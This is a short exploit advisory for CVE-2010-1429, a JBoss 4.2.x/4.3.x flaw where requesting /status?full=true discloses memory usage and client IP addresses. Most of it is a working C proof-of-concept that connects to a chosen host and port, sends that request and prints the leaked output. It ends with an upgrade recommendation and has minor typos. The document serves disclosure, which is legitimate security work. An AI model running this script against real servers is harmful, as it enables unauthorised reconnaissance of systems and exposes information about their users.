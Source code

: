 #JBoss sensitive information disclosure 4.2X & 4.3.X CVE-2010-1429
# Date: 02/08/2018
# Exploit Author: JameelNabbo
# Vendor Homepage: http://www.jboss.org
# Software Link: http://jbossas.jboss.org/downloads
# Version: 4.2X. & 4.3.X
# Tested on: Linux Ubuntu
# CVE : CVE-2010-1429

1. Description
   
By requesting the Status param and sitting its value to true, Jobss will print a sensitive information such as Memory used/Total Memory / Client IP address.
Example:   http://127.0.01/status?full=true
 
   
2. Proof of Concept
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <netinet/tcp.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>


int socket_connect(char *host, in_port_t port){
    struct hostent *hp;
    struct sockaddr_in addr;
    int on = 1, sock;
    
    if((hp = gethostbyname(host)) == NULL){
        herror("gethostbyname");
        exit(1);
    }
    bcopy(hp->h_addr, &addr.sin_addr, hp->h_length);
    addr.sin_port = htons(port);
    addr.sin_family = AF_INET;
    sock = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);
    setsockopt(sock, IPPROTO_TCP, TCP_NODELAY, (const char *)&on, sizeof(int));
    
    if(sock == -1){
        perror("setsockopt");
        exit(1);
    }
    
    if(connect(sock, (struct sockaddr *)&addr, sizeof(struct sockaddr_in)) == -1){
        perror("connect");
        exit(1);
        
    }
    return sock;
}

#define BUFFER_SIZE 1024

int main(int argc, char *argv[]){
    int fd;
    char buffer[BUFFER_SIZE];
    
    if(argc < 3){
        fprintf(stderr, "Usage: %s <hostname> <port>\n", argv[0]);
        exit(1);
    }
    
    fd = socket_connect(argv[1], atoi(argv[2]));
    write(fd, "GET /status?full=true\r\n", strlen("GET /status?full=true\r\n")); // write(fd, char[]*, len);
    while(read(fd, buffer, BUFFER_SIZE - 1) != 0){
         fprintf(stderr, "%s", buffer);
    }

    shutdown(fd, SHUT_RDWR);
    close(fd);
    return 0;
}

3. Solution :
Update to version 4.2.3 or later
